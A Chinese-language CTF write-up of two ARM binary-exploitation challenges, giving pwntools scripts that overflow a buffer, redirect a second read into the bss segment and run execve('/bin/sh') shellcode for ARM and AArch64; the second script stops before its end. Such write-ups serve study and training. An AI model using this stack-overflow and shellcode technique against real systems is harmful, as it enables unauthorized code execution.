 ### InCTF-2018 wARMup

观察以下这段汇编代码段：

```
.text:0001052C   SUB     R3, R11, #-buf
.text:00010530   MOV     R2, #0x78 ; 'x'     ; nbytes
.text:00010534   MOV     R1, R3              ; buf
.text:00010538   MOV     R0, #0              ; fd
.text:0001053C   BL      read

```

可以知道，`read`读入的源地址是由`R11`（相当于`ebp`）控制的，这点和`x86_64`架构下也是类似的。

 

因此，我们可以控制`R11`寄存器进行二次读入，将`shellcode`读入到`bss`段上，然后直接打过去就行（因为`qemu`所有地址都是可执行的，自然包括`bss`段）。

```
from pwn import *
context(os = 'linux', arch = 'arm', log_level = 'debug')
 
io = process("qemu-arm -L ./ ./pwn", shell = True)
# io = remote("node4.buuoj.cn", 28441)
elf = ELF("./pwn")
 
payload = b'a'*0x64 + p32(elf.bss() + 0x68) + p32(0x1052C)
io.send(payload)
 
shellcode = asm('''
    add r0, pc, #12
    mov r1, #0
    mov r2, #0
    mov r7, #11
    svc 0
    .ascii "/bin/sh\\0"
''')
payload = shellcode.ljust(0x68, b'\x00') + p32(elf.bss())
io.send(payload)
io.interactive()

```

### 上海骇极杯 2018 baby_arm

其实这个题若是`qemu`环境跑的话，任意地址都是有可执行权限的，所以直接`ret2shellcode`就能通：

```
from pwn import *
context(os = 'linux', arch = 'aarch64', log_level = 'debug')
 
io = process("qemu-aarch64 -L ./ ./pwn", shell = True)
# io = remote("node4.buuoj.cn", 27295)
elf = ELF("./pwn")
 
shellcode_addr = 0x411068
 
shellcode = asm('''
    add x0, x30, #20
    mov x1, xzr
    mov x2, xzr
    mov x8, #221
    svc 0
    .ascii "/bin/sh\\0"
''')
io.sendafter("Name:", shellcode)
 
```